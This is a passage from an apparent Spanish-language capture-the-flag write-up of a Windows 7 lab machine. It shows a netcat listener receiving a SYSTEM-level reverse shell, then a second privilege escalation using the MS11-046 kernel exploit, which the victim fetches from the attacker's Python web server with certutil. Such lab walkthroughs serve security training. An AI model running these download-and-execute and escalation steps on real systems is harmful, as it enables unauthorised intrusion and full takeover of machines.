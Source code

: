 ```bash
❯ rlwrap nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.15] from (UNKNOWN) [10.10.10.5] 49183
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

whoami
whoami
nt authority\system

C:\Windows\system32>
```

Ya somos adminstradores del sistema, ahora podemos visualizar las flags (user.txt y root.txt).

Otra forma de escalar privilegios es que vemos que la máquina presenta el sistema operativo *Microsoft Windows 7 Enterprise 6.1.7600 N/A Build 7600*, dicha versión de tecnología presenta una vulnerabilidad descrita en el CVE *CVE-2011-1249* relacionado al *MS11-046*; por lo que podemos buscar un exploit compilado que nos facilite la escalada de privilegios:

[Github](https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS11-046/ms11-046.exe)

Nos descargamos el archivo, lo subimos al sistema compartiendo un servidor con python y descargandolo en *C:\\Windows\\Temp\\Privesc*.

```bash
❯ python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.5 - - [28/Aug/2021 17:28:22] "GET /ms11-046.exe HTTP/1.1" 200 -
10.10.10.5 - - [28/Aug/2021 17:28:26] "GET /ms11-046.exe HTTP/1.1" 200 -
```

```bash
cd C:\Windows\Temp                                                                                                                         
mkdir Privesc                                                                     
mkdir Privesc                                                                                                         
cd Privesc                              
cd Privesc                                                                                 
certutil.exe -f -urlcache -split http://10.10.14.15/ms11-046.exe C:\Windows\Temp\Privesc\ms11-046.exe
****  Online  ****
  000000  ...
  01b8af
CertUtil: -URLCache command completed successfully.

dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 8620-71F1

 Directory of C:\Windows\Temp\Privesc

29/08/2021  01:33     <DIR>          .
29/08/2021  01:33     <DIR>          ..
29/08/2021  01:33            112.815 ms11-046.exe
               1 File(s)        112.815 bytes
               2 Dir(s)  22.117.363.712 bytes free

C:\Windows\Temp\Privesc>
```
